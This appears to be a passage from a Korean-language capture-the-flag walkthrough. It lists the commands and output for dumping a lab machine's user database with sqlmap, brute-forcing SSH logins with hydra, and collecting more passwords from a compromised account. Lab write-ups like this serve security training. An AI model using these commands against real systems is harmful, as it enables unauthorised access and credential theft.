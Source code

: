```shell
sqlmap -r req --dump -D users -T UserDetails -C username --batch
sqlmap -r req --dump -D users -T UserDetails -C password --batch
```
- password column과 username column을 출력해 복사하고, `username.txt`, `password.txt`로 저장합니다.

```shell
sed -i 's/|//g; s/ //g' username.txt
sed -i 's/|//g; s/ //g' password.txt
```

command
``` shell
hydra -L usernames.txt -P passwords.txt ssh://target
```

result
```shell            
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-06 20:20:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 324 login tries (l:18/p:18), ~21 tries per task
[DATA] attacking ssh://target:22/
[22][ssh] host: target   login: chandlerb   password: UrAG0D!
[22][ssh] host: target   login: joeyt   password: Passw0rd
[STATUS] 238.00 tries/min, 238 tries in 00:01h, 89 to do in 00:01h, 13 active
[22][ssh] host: target   login: janitor   password: Ilovepeepee
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-06 20:21:52
```

## Privilege Escalation

`janitor` 의 계정에서 추가적인 패스워드 정보를 확인할 수 있었습니다.
```shell
ls -al
total 16
drwx------  4 janitor janitor 4096 Sep  6 21:21 .
drwxr-xr-x 19 root    root    4096 Dec 29  2019 ..
lrwxrwxrwx  1 janitor janitor    9 Dec 29  2019 .bash_history -> /dev/null
drwx------  3 janitor janitor 4096 Sep  6 21:21 .gnupg
drwx------  2 janitor janitor 4096 Dec 29  2019 .secrets-for-putin
```

```shell
cat passwords-found-on-post-it-notes.txt 
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```
* 아래 세줄은 DB에서 얻은 password외에 새로운 password였습니다.
* hydra를 통해 다시 bruteforcing을 시도합니다.
